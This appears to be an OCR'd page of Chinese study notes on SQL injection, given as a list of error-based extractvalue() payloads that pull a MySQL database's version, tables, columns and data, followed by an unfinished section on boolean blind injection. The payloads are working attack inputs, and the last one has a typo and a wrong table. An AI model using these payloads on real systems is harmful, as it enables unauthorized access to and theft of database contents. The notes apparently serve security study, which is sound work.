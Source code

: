   

### 基本步骤

- 查看数据库版本

```sql
1'and extractvalue(1,concat(0x3a,(select version()),0x3a)) --+
```

- 查看数据库名字

```sql
1' and extractvalue(1,concat(0x7e,database(),0x7e)) --+
```

- 查看数据库表

```sql
1' and extractvalue(1,concat(0x7e,(select count(table_name) from
information_schema.tables where table_schema=database()),0x7e)) --+
```

- 查看数据库有哪些表

```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from
information_schema.tables where table_schema=database() limit 0,1),0x7e)) --+
```

- 查看表中的字段名

```sql
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from
information_schema.columns where table_schema=database() and table_name='emails'
limit 0,1),0x7e)) --+
```

- 查看表里的数据

```sql
1' and extractvalue(1,concat(0x7e,(select
group_concat(concat_ws('___',id,email_id)) from information_schema.columns where
table_schema=database() and talbe_name='emails' limit 0,1),0x7e)) --+
```

### sql盲注

- 概念:服务器不会直接返回具体的数据库,只会返回程序开发所设定的特定信息
- 页面`不会直接显示`sql执行的结果

### 布尔盲注

- ```sql
  //布尔盲注:在进行sql注入时,web页面只返回True和False
  //通过对返回对返回True或False的情况对数据库的信息进行猜解
  
  //相关函数:substr(),substring(),mid()
  //用于长度截取某一列字段的一部分,在各个数据库中的名称不一样
  //substr(arg1,int1,int2)，int1为截取开始位置(从1开始计算)，int2为截取长度，其余用法完全一样
  1. substr()
  2. substring()
  3. mid()
  select substr(database(),1,3)
  